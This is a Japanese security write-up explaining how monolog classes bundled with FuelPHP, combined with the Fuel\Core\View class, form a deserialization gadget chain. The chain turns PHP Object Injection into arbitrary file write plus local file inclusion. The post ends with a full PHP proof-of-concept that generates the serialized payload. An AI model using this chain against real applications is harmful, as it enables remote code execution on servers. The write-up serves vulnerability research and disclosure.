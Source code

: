 # FuelPHP での PHP Object Injection について

[PHPにおけるオブジェクトインジェクション脆弱性について](http://blog.a-way-out.net/blog/2014/07/22/php-object-injection/) の下記の部分について。

> 私の調べた範囲では、FuelPHP自体にはこの脆弱性により任意のコードを実行できるようなクラスはありませんでした（ただし、ファイルを削除することは可能でした。また、ユーザの作成したクラスに脆弱なものが存在する可能性もあります）。
>
> 次のCakePHPの事例のように複雑な組み合わせで攻撃できる可能性があるため、ちょっと見ただけで問題ないとは簡単には言えません。もし、FuelPHPのクラスで任意のコードを実行する方法を発見された方がいましたら、お教え願いたいです。


明記されたものが見つからなかったので備忘録代わりに書きます。

FuelPHP では [composer.json](https://github.com/fuel/fuel/blob/1.8/master/composer.json#L17) に記載があるとおり monolog ライブラリが使われています。
PHP Object Injection が存在する場合に monolog のクラスを利用して任意のコードを実行させる方法が既に公表されており、 [Laravel cookie forgery, decryption, and RCE](https://labs.mwrinfosecurity.com/blog/laravel-cookie-forgery-decryption-and-rce/) に記載があります。
ですので FuelPHP をインストールしたデフォルトの状態では、 PHP Object Injection があった場合に任意のコードが実行可能になっています。

[Practical PHP Object Injection](https://www.insomniasec.com/downloads/publications/Practical%20PHP%20Object%20Injection.pdf) p.45 にも記載があるとおりこの方法は Arbitrary Write なので、 PHP アプリケーションがドキュメントルート以下に対する書き込み権限を持たない場合はそのまま用いることができません。
ただ、 monolog のクラスと FuelPHP の `Fuel\Core\View` クラスを組み合わせることで Local File Inclusion が可能になるため、ドキュメントルート以下に書き込み権限がない場合であっても以下の手順で任意のコード実行が可能です。

1. Arbitrary Write で /tmp などの書き込み可能なディレクトリ以下に攻撃用スクリプトを書き出す
2. Local File Inclusion により 1.で書き出したファイルを include させて攻撃用スクリプトを実行させる


PoC はこのようになります。

```php
<?php

namespace Monolog\Handler {
class BufferHandler
{
    protected $buffer = [];
    protected $bufferSize = 0;
    protected $handler;

    public function __construct($handler)
    {
        $this->handler = $handler;
    }

    public function handle(array $record)
    {
        $this->buffer[] = $record;
        $this->bufferSize++;
    }
}

class StreamHandler
{
    protected $url;

    public function __construct($stream)
    {
        $this->url = $stream;
    }
}
}

namespace Fuel\Core {
class View
{
    protected $file_name;

    public function __construct($file)
    {
        $this->file_name = $file;
    }
}
}


namespace {
function main()
{
    $code = <<<'CODE'
<?php phpinfo(); exit; ?>
CODE;
    $targetFile = 'target-file.php';
    $arbitraryWrite = new Monolog\Handler\BufferHandler(
        new Monolog\Handler\StreamHandler($targetFile)
    );
    $arbitraryWrite->handle([
        'level' => 100, // Logger::DEBUG
        'message' => $code,
        'extra'  => [],
    ]);

    $view = new Fuel\Core\View($targetFile);
    $localFileInclusion = new Monolog\Handler\BufferHandler(
        new Monolog\Handler\StreamHandler($view)
    );
    $localFileInclusion->handle([
        'level' => 100, // Logger::DEBUG,
        'message' => 'foobar',
        'extra' => [],
    ]);

    echo bin2hex(serialize([$arbitraryWrite, $localFileInclusion]));
}

main();
}
```
